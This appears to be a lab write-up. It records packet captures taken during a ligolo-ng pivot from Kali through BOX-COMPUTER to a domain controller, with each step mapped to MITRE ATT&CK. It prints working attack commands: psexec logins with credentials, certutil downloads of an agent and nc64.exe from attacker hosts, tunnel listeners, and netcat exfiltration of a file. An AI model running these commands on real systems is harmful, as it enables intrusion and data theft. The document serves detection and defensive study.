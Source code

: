 
I started a network capture on BOX-COMPUTER and DC01 on all interfaces during a simple pivoting setup. 
This showcases significant packets that contextualise attacker behaviour. 
This is not meant to be a tutorial for [ligolo-ng](https://github.com/nicocha30/ligolo-ng). 

| Host         | IP                           |
| ------------ | ---------------------------- |
| kali         | 192.168.18.128               |
| BOX-COMPUTER | 192.168.18.5<br>10.10.15.128 |
| DC01         | 10.10.15.10                  |

# Initial psexec login
[SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)  
kali compromises BOX-COMPUTER:
```zsh
impacket-psexec webby/john:'P@ssw0rd'@192.168.18.5
```
![1_psexec.png](screenss/1_psexec.png)


Agent file downloaded to BOX-COMPUTER
[Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)  
```cmd
certutil -urlcache -f http://192.168.18.128/c2/agent.exe .\agent.exe
```
![2_transferagent.png](screenss/2_transferagent.png)  

Agent connected
```cmd
.\agent.exe -connect 192.168.18.128:11601 -ignore-cert
```

[Protocol Tunneling](https://attack.mitre.org/techniques/T1572/)  
BOX-COMPUTER Capture of the first handshake
![3_agentconn.png](screenss/3_agentconn.png)  

interface shown in ligolo console  
![4_othersubnet.png](screenss/4_othersubnet.png)


# Pivot to other subnet
Add route to the internal subnet, start tunnelling through the agent
![5_addroute.png](screenss/5_addroute.png)  
![6_tunnelstart.png](screenss/6_tunnelstart.png)  

Add listener on agent for kali web server.
```zsh
listener_add --addr 0.0.0.0:8888 --to 0.0.0.0:80
```


kali compromised DC01
```zsh
impacket-psexec webby/Administrator:'P@ssw0rd'@10.10.15.10
```


Despite capturing at both interfaces, BOX-COMPUTER capture can no longer see kali's activities in its internal subnet, due to the tunnel encapsulation and encryption. All packets forth are encrypted within this tunnel.  
![7_encryption.png](screenss/7_encryption.png)  


DC01 capture shows BOX-COMPUTER as the origin of psexec login  
![8_psexec2.png](screenss/8_psexec2.png)  


Kali wants to exfiltrate file  
![9_wantfile.png](screenss/9_wantfile.png)  

Download of nc64.exe
```cmd
certutil -urlcache -f http://10.10.15.128:8888/revshell/nc64.exe .\nc64.exe
```

DC01 capture shows BOX-COMPUTER hosting a web server due to the port forwarding in place  
![10_transfernc.png](screenss/10_transfernc.png)  


Kali setup listener on agent to listen for file
```zsh
listener_add --addr 0.0.0.0:5555 --to 0.0.0.0:5555
```
```zsh
nc -nvlp 5555 > donottouch.txt
```


[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)  
DC01 shell send file to agent
```cmd
.\nc64.exe 10.10.15.128 5555 < donottouch.txt
```

DC01 capture showing file contents in plaintext  
![11_exfiltration.png](screenss/11_exfiltration.png)  


Kali received file
```zsh
listening on [any] 5555 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 46072
^C
```
![12_stolenfile.png](screenss/12_stolenfile.png)
